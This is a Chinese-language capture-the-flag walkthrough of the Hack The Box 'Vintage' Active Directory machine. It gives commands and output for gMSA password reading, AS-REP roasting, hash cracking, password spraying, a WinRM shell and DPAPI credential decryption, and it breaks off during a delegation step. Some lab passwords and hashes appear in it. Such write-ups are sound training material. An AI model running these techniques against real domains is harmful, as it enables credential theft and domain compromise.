

## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Hard |

As is common in real life Windows pentests, you will start the Vintage box with credentials for the following account: `P.Rosa` / `Rosaisbest123`

## Nmap Scan

```
└─# nmap  -sC -sV -T4 -Pn  vintage.htb -p-

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-04 01:49:22Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  unknown
49668/tcp open  unknown
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49681/tcp open  unknown
50907/tcp open  unknown
65103/tcp open  unknown
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -13m55s
| smb2-time: 
|   date: 2024-12-04T01:49:48
|_  start_date: N/A
```

发现在3269端口这一行，存在一个名为：DC01 的域控主机，添加到/etc/hosts中

并且在3268中存在ldap服务器，同时也存在Kerberos服务以及5985winrm服务

## ldapsearch

```
└─# ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName memberOf
```

各部分解释

- `ldapsearch`: 这是用于查询 LDAP 目录的命令行工具。

- `-x`: 表示使用简单身份验证，而不是 SASL 认证。

- `-H ldap://<IP>`: 指定 LDAP 服务器的地址（用实际的 IP 地址替换 `<IP>`）。

- `-D "P.Rosa@vintage.htb"`: 绑定 DN（Distinguished Name），即用于登录 LDAP 服务器的用户凭证。

- `-w "Rosaisbest123"`: 指定绑定用户的密码。

- `-b "DC=vintage,DC=htb"`: 指定搜索的基础 DN（Base DN），即从哪个节点开始搜索 LDAP 目录。

- `"(objectClass=user)"`: 这是过滤器，用于指定只查询对象类为 `user` 的条目。

- `sAMAccountName memberOf`: 指定要返回的属性。`sAMAccountName` 是用户的登录名，`memberOf` 表示用户所属的组。

使用题目给出的用户信息进行ldap远程登陆，并枚举域中的用户以及所属组

```
# extended LDIF
#
# LDAPv3
# base <DC=vintage,DC=htb> with scope subtree
# filter: (objectClass=user)
# requesting: sAMAccountName memberOf 
#

# Administrator, Users, vintage.htb
dn: CN=Administrator,CN=Users,DC=vintage,DC=htb
memberOf: CN=Group Policy Creator Owners,CN=Users,DC=vintage,DC=htb
memberOf: CN=Domain Admins,CN=Users,DC=vintage,DC=htb
memberOf: CN=Enterprise Admins,CN=Users,DC=vintage,DC=htb
memberOf: CN=Schema Admins,CN=Users,DC=vintage,DC=htb
memberOf: CN=Administrators,CN=Builtin,DC=vintage,DC=htb
sAMAccountName: Administrator

# Guest, Users, vintage.htb
dn: CN=Guest,CN=Users,DC=vintage,DC=htb
memberOf: CN=Guests,CN=Builtin,DC=vintage,DC=htb
sAMAccountName: Guest

# DC01, Domain Controllers, vintage.htb
dn: CN=DC01,OU=Domain Controllers,DC=vintage,DC=htb
sAMAccountName: DC01$

# krbtgt, Users, vintage.htb
dn: CN=krbtgt,CN=Users,DC=vintage,DC=htb
memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=vintage,DC=htb
sAMAccountName: krbtgt

# gMSA01, Managed Service Accounts, vintage.htb
dn: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
sAMAccountName: gMSA01$

# fs01, Computers, vintage.htb
dn: CN=fs01,CN=Computers,DC=vintage,DC=htb
memberOf: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=vintage,DC=htb
sAMAccountName: FS01$

# M.Rossi, Users, vintage.htb
dn: CN=M.Rossi,CN=Users,DC=vintage,DC=htb
sAMAccountName: M.Rossi

# R.Verdi, Users, vintage.htb
dn: CN=R.Verdi,CN=Users,DC=vintage,DC=htb
sAMAccountName: R.Verdi

# L.Bianchi, Users, vintage.htb
dn: CN=L.Bianchi,CN=Users,DC=vintage,DC=htb
memberOf: CN=ServiceManagers,OU=Pre-Migration,DC=vintage,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=vintage,DC=htb
sAMAccountName: L.Bianchi

# G.Viola, Users, vintage.htb
dn: CN=G.Viola,CN=Users,DC=vintage,DC=htb
memberOf: CN=ServiceManagers,OU=Pre-Migration,DC=vintage,DC=htb
sAMAccountName: G.Viola

# C.Neri, Users, vintage.htb
dn: CN=C.Neri,CN=Users,DC=vintage,DC=htb
memberOf: CN=ServiceManagers,OU=Pre-Migration,DC=vintage,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=vintage,DC=htb
sAMAccountName: C.Neri

# P.Rosa, Users, vintage.htb
dn: CN=P.Rosa,CN=Users,DC=vintage,DC=htb
sAMAccountName: P.Rosa

# svc_sql, Pre-Migration, vintage.htb
dn: CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
memberOf: CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb
sAMAccountName: svc_sql

# svc_ldap, Pre-Migration, vintage.htb
dn: CN=svc_ldap,OU=Pre-Migration,DC=vintage,DC=htb
memberOf: CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb
sAMAccountName: svc_ldap

# svc_ark, Pre-Migration, vintage.htb
dn: CN=svc_ark,OU=Pre-Migration,DC=vintage,DC=htb
memberOf: CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb
sAMAccountName: svc_ark

# C.Neri_adm, Users, vintage.htb
dn: CN=C.Neri_adm,CN=Users,DC=vintage,DC=htb
memberOf: CN=DelegatedAdmins,OU=Pre-Migration,DC=vintage,DC=htb
memberOf: CN=Remote Desktop Users,CN=Builtin,DC=vintage,DC=htb
sAMAccountName: C.Neri_adm

# L.Bianchi_adm, Users, vintage.htb
dn: CN=L.Bianchi_adm,CN=Users,DC=vintage,DC=htb
memberOf: CN=DelegatedAdmins,OU=Pre-Migration,DC=vintage,DC=htb
memberOf: CN=Domain Admins,CN=Users,DC=vintage,DC=htb
sAMAccountName: L.Bianchi_adm

# search reference
ref: ldap://ForestDnsZones.vintage.htb/DC=ForestDnsZones,DC=vintage,DC=htb

# search reference
ref: ldap://DomainDnsZones.vintage.htb/DC=DomainDnsZones,DC=vintage,DC=htb

# search reference
ref: ldap://vintage.htb/CN=Configuration,DC=vintage,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 21
# numEntries: 17
# numReferences: 3
```

其中存在的一个Computers，其域名为`FS01.vintage.htb`似乎就是这台机子

将其添加到/etc/hosts

```
# fs01, Computers, vintage.htb
dn: CN=fs01,CN=Computers,DC=vintage,DC=htb
memberOf: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=vintage,DC=htb
sAMAccountName: FS01$
```

## Bloodhound

首先要在/etc/resove.conf中添加

```
┌──(root㉿kali)-[/home/kali/Vintage]
└─# cat /etc/resolv.conf

# Generated by NetworkManager
search localdomain
#nameserver 192.168.237.2    #根据需要注释掉这一行

nameserver 10.10.11.45  # Your IP
```

注释掉192.168.xxx.xxx，我并不知道这是否是必要的，但是我注释掉后能成功

然后注意同步时区，因为Kerberos的认证有时区的限制

```
┌──(root㉿kali)-[/home/kali/Vintage]
└─# ntpdate dc01.vintage.htb

2024-12-03 16:24:04.142934 (+0800) -833.126733 +/- 0.034009 dc01.vintage.htb 10.10.11.45 s1 no-leap
CLOCK: time stepped by -833.126733
```

然后进行内网信息收集，使用bloodhound

```
┌──(root㉿kali)-[/home/kali/Vintage]
└─# bloodhound-python -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -c All -dc dc01.vintage.htb            
INFO: Found AD domain: vintage.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 16 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: FS01.vintage.htb
INFO: Querying computer: dc01.vintage.htb
```

会在当前目录下生成一些分析后的文件


安装BloodhoundGUI，同时要安装neo4j数据库

- [BloodHoundAD/BloodHound: Six Degrees of Domain Admin (github.com)](https://github.com/BloodHoundAD/BloodHound)

导入数据进行分析

可以发现`L.BIANCHI_ADM@VINTAGE.HTB`是在域管理员组中的，有管理员权限


并且`GMSA01$@VINTAGE.HTB`可以将自己添加到管理员组


域内关系



从FS01到GMSA01，可以看到FS01可以读取GMS的密码

然后GMS可以将自己添加到管理员组


## User

使用GetTGT.py：提供密码、hash或aeskey用来请求TGT并且保存为ccache格式

```
└─# impacket-getTGT  -dc-ip 10.10.11.45 vintage.htb/FS01$:fs01
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in FS01$.ccache
```

将环境变量 `KRB5CCNAME` 设置为 `FS01\$.ccache`，以指定 Kerberos 客户端应该使用的缓存文件

```
└─# export KRB5CCNAME=FS01\$.ccache
```

使用bloodyAD与 Active Directory 交互，通过 Kerberos 身份验证，从指定的 Active Directory 域控制器获取名为 `GMSA01$` 的受管服务账户的密码（存储在 `msDS-ManagedPassword` 属性中）

```
└─# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53
msDS-ManagedPassword.B64ENCODED: rbqGzqVFdvxykdQOfIBbURV60BZIq0uuTGQhrt7I1TyP2RA/oEHtUj9GrQGAFahc5XjLHb9RimLD5YXWsF5OiNgZ5SeBM+WrdQIkQPsnm/wZa/GKMx+m6zYXNknGo8teRnCxCinuh22f0Hi6pwpoycKKBWtXin4n8WQXF7gDyGG6l23O9mrmJCFNlGyQ2+75Z1C6DD0jp29nn6WoDq3nhWhv9BdZRkQ7nOkxDU0bFOOKYnSXWMM7SkaXA9S3TQPz86bV9BwYmB/6EfGJd2eHp5wijyIFG4/A+n7iHBfVFcZDN3LhvTKcnnBy5nihhtrMsYh2UMSSN9KEAVQBOAw12g==
```

通过已知的 GMSA 账户哈希值，尝试从 Active Directory 域控制器获取 Kerberos 票证

```
└─# impacket-getTGT vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in GMSA01$.ccache

└─#  export KRB5CCNAME=GMSA01\$.ccache
```

然后将P.Rosa添加到SERVICEMANAGERS，使用GMSA的凭证，然后在生成自己的凭证

```
└─# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"
[+] P.Rosa added to SERVICEMANAGERS

└─# impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123 -dc-ip dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in P.Rosa.ccache

└─#  export KRB5CCNAME=P.Rosa.ccache 
```

尝试使用这个票据来列出不需要Kerberos域认证的用户，先生成域内用户的用户名列表

```
└─# ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName | grep "sAMAccountName:" | cut -d " " -f 2 > usernames.txt   

└─# cat usernames.txt 
Administrator
Guest
DC01$
krbtgt
gMSA01$
FS01$
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm
```

然后用impact-GetNPUsers列出不需要Kerberos域认证(UF\_DONT\_REQUIRE\_PREAUTH)的用户

```
└─# impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User svc_ldap doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_ark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```

接下来禁用预认证

```
└─# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_ARK's userAccountControl
       
└─# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH  
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_LDAP's userAccountControl

└─#  bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH 
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL's userAccountControl                                                                                                                           
```

启用账户

```
└─# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_ARK -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_ARK's userAccountControl

└─#  bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_LDAP -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_LDAP's userAccountControl

└─# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE

[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
```

再次检查域用户

```
└─# impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc_sql@VINTAGE.HTB:193416fc53443c06de46d37da3d42166$b35ce4ea605d525055533543a7e9dd10fffc3a65ffc2f33c6961f648c340910cd492095e921ae4acaa30dc45f394e315d8b55ed1a832138d4061fec01cda3a05efe7ff9add64991b10354de2b29e108c905f72a1332a0e3a1d56b3d2023535f6e7bc9ef8435bdbc7152d45ab59e5c69415cc2aea0ffd880746bacda9f29e4d0c394217941623fc8b208aea33d3c3af1c362643c0e502505559d9bd997603673d1e80554ad5483730c8cfd62d4dbcce434cefa88411e7b9902b54c9bc0ec9cf8c9f5da98851eaa44236812e34064a956e45c4a4a911efb16beb6c0bb040a29465468f4a33df5957dd0cb8
$krb5asrep$23$svc_ldap@VINTAGE.HTB:2e8eb8a54f2e38ceb86cb167ebcfd3a3$4009fa7585adf1b1ce1e62ea59ef0e1db4569403621261a531e062559d9d62eef6bf55b181f10661ddb6de9030ff78d1dcd91a0920ff7c885fb2d85e1e8a2b2bd9894de70f8f6ef413254c150398269766b930f789c8a883b4a45326235480e46fee1db81736e4e1ce86f261a6ea2ddd7c3a6646e59a67b9bf4ff771ccfecc2354df616afedc768a022234517b88b95184b9fbdd90eb43b52ef883720b83be869de267f99ce70da020a4899900c454f3be18a0b85b2c1248a159219c34e85c888edb8f2a09af6d9c4a4d14766d0f248cfbc0a57cdace833cd589aa550de0f9e35ded67ad616ed0adbdbb
$krb5asrep$23$svc_ark@VINTAGE.HTB:ab991bf5f1ab56057d523c8b04f54993$6d178e1becf696f67f3b6c15f1d67a05570282f82e529a20b932253e72a3a62fd3c6662441c08154a9bd798a3079eb12b4cc104853611229183656c0254292f5b37be0d5a868b0a1b5b4940d40a3be5a1c402e44740b4fa42cd839cde7541268504c924d71b6dd3e6fe72400427d12bd7852cd6e61270b97d006224c5e0732406a6f7598a200e2acbd1d8f4c1ca47c028ab53ddd2d4de9efb98bfb49c2d962fe20bf98fef71d65c48ab252a288f53fac475cce8ddd1e30820a1df9dc058c877ae1e6e1bdcfe3954cbec461dcc085497914c8eb6d910010d4690377bbfedc160b604a1e4132a4e00de923
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set                                                   
```

尝试使用hashcat进行爆破

```
└─# hashcat -a 3 -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --show
$krb5asrep$23$svc_sql@VINTAGE.HTB:21f3bee616690890b5888e3e18d56582$89e966c8c984fdba49c4a5cb373407959a53c78fe823bcb599e4bff22df326780d2a869ed1572467797244c4b2f50a49af143612ee467dba34784a66a5805ad1d556e129838c3107a40259d80edafb2e6f88c80a77a4b3d30d5069a69d3a6b7f001f2fa3251faa17706a7fd255a96c3bfadf10f93e049b0fcc1f41227af5dbefee1ae906f23bfc4d1c6b0f7a8f4328ecce63b45e6944157f88d814830c568fb59763f1d6e785736d5ec368c6d27968c399eaa339067dc32783df85920ae876d3241bace19475691d6373cd0700771659a90d15a4cfeeb1dd89a5a6659b2c6316863e475ce228ac83274f:Zer0the0ne
```

得到SVC\_SQL密码：Zer0the0ne

使用kerbrute对user进行爆破

- [Releases · ropnop/kerbrute (github.com)](https://github.com/ropnop/kerbrute/releases)

```
└─# ./kerbrute --dc vintage.htb -d vintage.htb -v passwordspray usernames.txt Zer0the0ne

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 12/04/24 - Ronnie Flathers @ropnop

2024/12/04 09:36:16 >  Using KDC(s):
2024/12/04 09:36:16 >   vintage.htb:88

2024/12/04 09:36:16 >  [!] krbtgt@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/04 09:36:17 >  [!] Guest@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/04 09:36:17 >  [!] gMSA01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] FS01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] M.Rossi@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] L.Bianchi@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] R.Verdi@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] DC01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] G.Viola@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] Administrator@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] svc_sql@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/04 09:36:17 >  [!] P.Rosa@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] svc_ark@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] L.Bianchi_adm@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] svc_ldap@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] C.Neri_adm@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [+] VALID LOGIN:  C.Neri@vintage.htb:Zer0the0ne
2024/12/04 09:36:17 >  Done! Tested 17 logins (1 successes) in 0.481 seconds
                                                                               
```

账户 `C.Neri@vintage.htb` 使用密码 `Zer0the0ne` 成功登录


获取这个账户的凭证

```
└─# impacket-getTGT vintage.htb/c.neri:Zer0the0ne -dc-ip vintage.htb 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in c.neri.ccache

└─# export KRB5CCNAME=c.neri.ccache
```

然后用5985端口远程登录

```
└─# evil-winrm -i dc01.vintage.htb -r vintage.htb
```

获取到User.txt


## Root


### 什么是 DPAPI？

**DPAPI**（Data Protection API）是 Windows 操作系统中的一个加密 API，旨在保护敏感数据，比如密码、私钥、凭据等。它为应用程序提供了加密和解密数据的能力，同时隐藏了复杂的加密操作，简化了加密过程。DPAPI 的设计目的是确保只有当前用户或系统能够访问这些加密数据。

### DPAPI 的工作原理

- **加密**：当一个应用程序或 Windows 系统需要存储敏感信息时，它可以通过 DPAPI 将数据加密。加密使用的是用户的登录凭据（如用户的登录密码或计算机的密钥）来生成加密密钥。

- **解密**：只有在相同的用户上下文中，DPAPI 才能使用相同的密钥来解密数据。这样，如果一个应用程序或服务尝试访问加密的凭据或数据，只有当前登录用户或者管理员可以解密并访问这些信息。

- **安全性**：DPAPI 是基于 Windows 操作系统中的账户认证信息的，因此它的加密密钥与用户的登录凭据紧密关联，保证只有特定用户才能访问其自己的加密数据。

这里通过DPAPI来获取Windows的身份凭证

```
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> dir -h

    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
---- ------------- ------ ----
-a-hs- 6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6

*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials>download C4BB96844A5C9DD45D5B6A9859252BA6
```

```
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> dir -h

    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115

Mode                 LastWriteTime         Length Name
---- ------------- ------ ----
-a-hs- 12/4/2024   2:46 AM            740 1fe00192-86ec-4689-a4f2-f8c2336edaf4
-a-hs- 6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs- 6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs- 6/7/2024   1:17 PM            904 BK-VINTAGE
-a-hs- 12/4/2024   2:46 AM             24 Preferred

*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> download 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
```

然后进入解密

```
└─# impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a

└─# impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```

得到c.neri\_adm的密码为：Uncr4ck4bl3P4ssW0rd0312


接下来就是将C.NERL\_ADM添加到DELEGATEDADMINS中

```
└─# bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "SVC_SQL"  
[+] SVC_SQL added to DELEGATEDADMINS

└─#  bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName  -v "cifs/fake" 
[+] SVC_SQL's servicePrincipalName has been updated
```

获取这个SVC的票据

```
└─#  impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb

└─# export KRB5CCNAME=svc_sql.ccache
```

